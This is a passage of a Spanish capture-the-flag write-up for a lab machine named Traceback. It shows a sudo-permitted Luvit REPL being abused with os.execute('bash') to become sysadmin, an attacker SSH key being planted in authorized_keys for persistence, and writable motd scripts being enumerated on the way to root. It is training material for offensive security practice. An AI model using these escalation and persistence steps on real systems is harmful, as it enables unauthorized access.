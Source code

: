```bash
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
webadmin@traceback:/var/www/html$ sudo -u 'sysadmin' /home/sysadmin/luvit
Welcome to the Luvit repl!
> print('hola')
hola
>
 ```
Al buscar encontré que es una herramienta para programar en Lua. Entonces buscando encontré que puedo ejecutar comandos con la función os.execute(''). Por lo tanto, solo ejecuté una bash y obtuve un shell.
```bash
> os.execute('bash')
sysadmin@traceback:/var/www/html$ whoami
sysadmin
sysadmin@traceback:/var/www/html$
```
Para seguir me cree unas llaves ssh y la llave publica id\_rsa.pub la pegue en el authorized\_keys de sysadmin.
```bash
sysadmin@traceback:~/.ssh$ ls
authorized_keys
sysadmin@traceback:~/.ssh$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCn7R0arHChLrr5PHe6+2lqMwfmftFctUTszf43NZpfEdy+AKL1CDLhHD8dyBRlwK5rwgSaBw0fI0wUoaYMpj2WbZVNnQlfHg+SGH/9zE5yLyIomHxD874qTzc80fbqHlY7+WobG9AHMcemEdrGe6c1Z7PJ3JLTf8WB4gXLQdlPsDrHpOBy7HRmWdZsnh74sribeRGV2R//EXPMrjjD+a7Sz0DWZBamruK+pvh2qJk13T/Xe6mf+EWnO/ysi7TsqPxZ3Xg66Mcel4dSkBqB9m4ehKYLVB6b6cWrU3v1o4DWWtRIlnJ3XJYqK2ZWQ2WfVkLQSF04o7p1tyoOY244UWu9m3xgdwB416r7tY9+9GxgFdN2J1SHCMBVLq+pYYhkLJvbe4X7bZS********************************************************************************************** kali@kali" >> authorized_keys
```
Una vez hecho esto pude conectarme a la maquina a traves de ssh.
```bash
ssh sysadmin@10.129.193.96
The authenticity of host '10.129.193.96 (10.129.193.96)' can't be established.
ED25519 key fingerprint is SHA256:t2eqwvH1bBfzEerEaGcY/lX/lrLq/rpBznQqxrTiVfM.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:208: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.193.96' (ED25519) to the list of known hosts.
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 



Last login: Mon Mar 16 03:50:24 2020 from 10.10.14.2
$
```
# Shell como root
Enumerando encuentro que tengo permisos en la carpeta /etc/update-motd.d
```bash
ls -la /etc/update-motd.d
total 32
drwxr-xr-x  2 root sysadmin 4096 Apr 22  2021 .
drwxr-xr-x 80 root root     4096 Apr 22  2021 ..
-rwxrwxr-x  1 root sysadmin  981 May  4 08:06 00-header
-rwxrwxr-x  1 root sysadmin  982 May  4 08:06 10-help-text
-rwxrwxr-x  1 root sysadmin 4264 May  4 08:06 50-motd-news
```